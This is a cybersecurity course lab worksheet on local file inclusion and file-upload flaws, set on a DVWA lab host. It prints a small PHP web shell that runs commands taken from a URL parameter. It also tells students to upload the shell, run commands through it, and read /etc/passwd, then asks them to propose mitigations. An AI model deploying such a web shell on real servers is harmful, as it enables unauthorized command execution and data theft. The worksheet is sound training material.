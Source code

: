 ## Activity File: Local File Inclusion 

- In this activity, you will continue your role as an application security engineer with Replicants.

- You've just tested the company's main production website and confirmed that there is a back-end component vulnerability (**directory traversal**).

- Your manager is now concerned that there might be other back-end component vulnerabilities.

- More specifically, your manager would like you to test for **local file inclusion** vulnerabilities.

- Your manager has asked you to propose a mitigation strategy based on your findings.

## Setup

- Access Vagrant and open a browser.

- Return to the same webpage from the previous activity: <http://192.168.13.25>.

  - Select the **File Upload** option from the menu on the left side of the page
    
    - Note that even though you will be on the **File Upload** page, you will first conduct a file inclusion activity.

  - Alternatively, you can access the webpage directly by using this link: <http://192.168.13.25/vulnerabilities/upload/>.
  
-  The page will look like the following image:

    ![On DVWA, a red arrow points to File Upload on the left-side menu, and in the center of the page, there is an upload form.](local_file_inclusion.png)

- **Note**: If you have any issues accessing this webpage, you might need to repeat the Activity Setup steps from this previous activity: [GitHub: SQL Injection](https://github.com/coding-boot-camp/cybersecurity-v2/blob/15.1_V2_Update/1-Lesson-Plans/15-Web-Vulnerabilities-and-Hardening/1/Activities/06_SQL_Injection/Unsolved/README.md).

### Instructions 

The webpage you have accessed represents a page within the Replicants website. This webpage is designed for a user to upload an image to the Replicants web server. Once the image has been uploaded, the user can access a directory to view their uploaded image. Complete the following steps to test for local file inclusion vulnerabilities.

1. Test the intended use of the web application.

    **Uploading the Image**

    We will first see how to upload and view an image from the file upload webpage.

      - First select Browse to find the image that you want to upload.

      - By default, this should take you to the desktop of your Vagrant filesystem.

        - If it takes you to a different location, select Desktop.

    - There will be a file on your desktop called `image.jpg`.
    
      - Select that image.

    - Back on the file upload page, you should see the `image.jpg` file name that you selected.

      - To upload the file, select Upload.

    - You should then receive a success message that states:

      `../../hackable/uploads/image.jpg succesfully uploaded!`
  
    **Viewing the image**  

    - Note that the previous success message indicates where the file has been uploaded: 

      - `../../hackable/uploads/image.jpg`

    - Access the image by replacing the `#` at the end of the URL with the complete location indicated above.

      - `192.168.13.25/vulnerabilities/upload/../../hackable/uploads/image.jpg `

      - Note that your browser will automatically update the URL to the direct location of the image:

        - `http://192.168.13.25/hackable/uploads/image.jpg`

    - You should see the image of a squirrel.

      - Note that this is how the application is intended to work, by providing a user an option to upload and view an image!

          - There will be a file on your desktop called `image.jpg`.

          - Select that image.

        - Back on the file upload page, you should see the `image.jpg` file name that you selected.

          - To upload the file, select Upload.

        - You should then receive a success message that states the following:

          `../../hackable/uploads/image.jpg succesfully uploaded!`
        
      - Note that this is how the application is intended to work, by providing the user with an option to upload and view an image!

2. Test an unintended function of the application by loading a malicious PHP script.

    - Note that you just tested how the application is designed to load and view an image.

    - Let's now view a malicious PHP script that we can upload, instead of an image.

    - The malicious PHP script, called `script.php`, has been placed on your desktop.

      - To view this script, find it on your desktop and double-click on it to open:
      
                  <?php
                  $command = $_GET['cmd'];
                  echo system($command);
                  ?>

      - While understanding the exact syntax is not important for now, just note that the contents in the script are designed to run a PHP script to execute a user command.

    - Return to the file upload webpage and follow the same steps again, but this time select and upload the file `script.php`.

      - Note that this script will be uploaded to the same location as the image you previously uploaded.

3. Run command-line commands with your PHP script.

    - Let's now see if we can run command-line commands against the Replicants web server!

      - Change the URL to access the script that you just uploaded.
      
    - Modify the URL again to run the several Linux commands:

      - **Hint**: Review your class slides to see how to modify the URL to run command-line commands.

      - Run the following Linux commands and take note of the results:

        1. `ls`

        2. `cmd`
        
        3. `pwd`
        
        4. `ps`

    - **Note**: While this is a safe place to experiment with commands, DO NOT run commands that might delete or alter files that your system needs, such as `rm`, `mv`, or `rdmir`.

4. **Bonus**: Run commands to explore files with your PHP script.

    - Let's now see if we can run malicious commands to explore files within the Replicants web server.

      - By modifying the URL, access the script that you just uploaded.
      
    - Modify the URL to view the `/etc/passwd` file.

      - **Hint**: You will need to encode your payload, as the URL will not accept all characters, such as spaces.

      - Use the following webpage to help design your payload: [MeyerWeb: URL Encoder/Decoder](https://meyerweb.com/eric/tools/dencoder/).

5. Answer the following mitigation strategy questions:

    - Describe to your management how a malicious user can take advantage of the vulnerabilities that you just exploited. Be sure to include the potential impact.

    - Describe in plain language how you might mitigate the vulnerabilities that you just exploited.

---

© 2021 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved. 

